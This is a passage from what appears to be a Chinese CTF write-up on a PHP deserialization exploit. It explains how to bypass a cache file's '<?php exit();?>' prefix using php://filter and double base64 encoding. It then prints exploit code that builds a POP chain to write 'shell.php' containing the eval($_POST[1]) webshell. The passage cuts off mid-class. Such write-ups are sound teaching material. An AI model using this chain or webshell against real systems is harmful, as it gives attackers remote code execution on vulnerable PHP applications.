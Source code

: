    对写入的shell进行解码就只有php//exit了
   
   但是$data是拼接的字符串
   
   $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
   
    
   
   所以后面的$data就是我们的webshell
   
   来自于经过serialize函数处理后的$contents
   
   现在对$contents进行构造了
   
   $this->cache=array()
   
   $this->complete=base64_encode(‘123’.base64_encode(‘<?php @eval($_POST[1]);?>’))
   
   第一个base64编码是为了绕过json_encode
   
   第二个base64编码是为了防止php://filter过滤器对写入后面造成过滤处理
   
    
   ```

   

贴exp

```
<?php

class A {

 

  protected $store;

  protected $key;

  protected $expire;

  public function __construct(){

    $this->key='shell.php';

    $this->store=new B();

    $this->expire=0;

    $this->cache=array();

    $this->complete=base64_encode("123".base64_encode('<?php @eval($_POST[1]);?>'));

    $this->autosave = false;

  }

}

class B{

  public $options=array();

  public function __construct(){
